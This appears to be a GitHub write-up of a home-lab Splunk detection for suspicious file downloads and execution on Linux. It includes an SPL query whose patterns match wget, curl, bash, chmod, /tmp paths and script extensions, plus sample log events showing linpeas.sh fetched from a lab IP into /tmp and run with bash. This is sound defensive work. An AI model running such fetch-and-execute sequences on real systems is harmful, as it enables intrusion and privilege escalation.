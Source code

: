 
# Detection Use Case: Suspicious File Downloads & Execution

## Scenario Description
Attackers often download and execute malicious payloads during the initial stages of compromise. These files are commonly fetched using tools like `wget`, `curl`, `ftp`, or `scp`, then executed using commands like `bash`, `chmod +x`, or `./`. These actions frequently occur in temp directories and may involve suspicious file extensions like `.sh`, `.py`, `.elf`, or `.exe`.

## Objective
This detection identifies commands related to suspicious downloads and subsequent execution behaviors, focusing on tools used, paths like `/tmp` or `/dev/shm`, and unusual file extensions that may indicate malware or scripts.

## Tools Used
- **SIEM**: Splunk Enterprise  
- **Log Source**: Linux (`auditd`, `syslog`, `bash_history`)  
- **Lab Setup**:  
  - Kali Linux VM running Splunk Universal Forwarder  
  - Windows host with Splunk Enterprise  
  - Logs forwarded: `audit.log`, `bash_history`  
  - Forwarding via TCP port `9997`  

---

## Data Source Mapping

| Field Name          | Description / Sample Value                      |
|---------------------|--------------------------------------------------|
| `_time`             | `2025-05-24T10:35:15.123+0530`                   |
| `host`              | `kali`                                           |
| `user`              | `root`                                           |
| `cmd`               | `wget`, `curl`, `ftp`, `scp`, `bash`, `chmod`    |
| `arg1`              | First argument to command (e.g., script name)    |
| `arg2`              | Second argument (e.g., execution path)           |
| `suspicious_download` | Tool used for downloading                      |
| `suspicious_exec`   | Command or pattern suggesting execution          |
| `suspicious_path`   | `/tmp`, `/dev/shm`                               |
| `suspicious_ext`    | `.sh`, `.py`, `.elf`, `.exe`                     |
| `index`             | `linux_logs`                                     |
| `sourcetype`        | `auditd` / `bash_history` / `syslog`            |
| `source`            | `/var/log/audit/audit.log`, `/root/.bash_history` |
| `splunk_server`     | `KANHA`                                          |

---

## 🛡️ Detection Logic: Suspicious Downloads Followed by Execution

This SPL (Search Processing Language) query detects suspicious download and execution patterns by correlating download tools, execution attempts, use of temp directories, and uncommon file extensions.

### 🔍 SPL Query Used

```spl
index=linux_logs type=EXECVE
| rex "a0=\"(?<cmd>[^\"]+)\"" 
| rex "a1=\"(?<arg1>[^\"]+)\"" 
| rex "a2=\"(?<arg2>[^\"]+)\""
| eval suspicious_download = if(cmd IN ("wget", "curl", "ftp", "scp"), cmd, null())
| eval suspicious_exec = if(cmd IN ("bash", "chmod"), cmd, if(match(arg1, "^\./.*"), "relative_exec", null()))
| eval suspicious_path = if(match(arg2, "^/tmp/"), "/tmp", if(match(arg2, "^/dev/shm/"), "/dev/shm", null()))
| eval suspicious_ext = if(match(arg1, "\.sh$"), ".sh", if(match(arg1, "\.py$"), ".py", if(match(arg1, "\.elf$"), ".elf", if(match(arg1, "\.exe$"), ".exe", null()))))
| where isnotnull(suspicious_download) OR isnotnull(suspicious_exec) OR isnotnull(suspicious_path) OR isnotnull(suspicious_ext)
| table _time, host, user, cmd, arg1, arg2, suspicious_download, suspicious_exec, suspicious_path, suspicious_ext
```

## Alert

![11](https://github.com/user-attachments/assets/2e4e8d9e-a47b-4d74-86ed-4eae267253d1)


## Log / Sample Event

| _time                      | host | user | cmd   | arg1                                | arg2             | suspicious_download | suspicious_exec | suspicious_path | suspicious_ext |
|---------------------------|------|------|-------|-------------------------------------|------------------|---------------------|-----------------|------------------|----------------|
| 2025-05-24T17:06:05.603+0530 | kali |      | wget  | http://192.168.1.11:8000/linpeas.sh | /tmp/            | wget                |                 | /tmp             | .sh            |
| 2025-05-24T17:04:18.575+0530 | kali |      | chmod | +x                              | /tmp/lin.sh      |                     | chmod           | /tmp             |                |
| 2025-05-24T17:03:34.811+0530 | kali |      | bash  | /tmp/lin.sh                         |                  |                     | bash            |                  | .sh            |
| 2025-05-24T17:02:43.251+0530 | kali |      | chmod | +x                              | /tmp/lin.sh      |                     | chmod           | /tmp         |

![10](https://github.com/user-attachments/assets/0b52fd42-682f-4add-9b9c-e1730a0a87a9)


---

## Detection Status
✅ Working – Tested on Kali Linux with download and execution simulation via `wget` + `bash`

## Analyst Notes / Recommendations

### Suspicious Downloads and Execution
- **Actions:**
  - Investigate source of downloads: URLs, IPs, or scripts.
  - Check integrity and purpose of downloaded files.
  - Correlate with threat intelligence sources (e.g., known malware hashes or domains).
  - Isolate hosts if malware activity is suspected.
- **Possible False Positives:**
  - Legitimate scripts fetched and executed by automation pipelines (CI/CD).
  - Admin activities during software installation.

---

## 🔗 MITRE ATT&CK Mapping

| Technique ID | Name                                    | Tactic                | Platform |
|--------------|-----------------------------------------|------------------------|----------|
| T1105        | Ingress Tool Transfer                   | Command and Control    | Linux    |
| T1059.004    | Command and Scripting Interpreter: Bash | Execution              | Linux    |
| T1070.004    | Indicator Removal on Host: File Deletion| Defense Evasion        | Linux    |

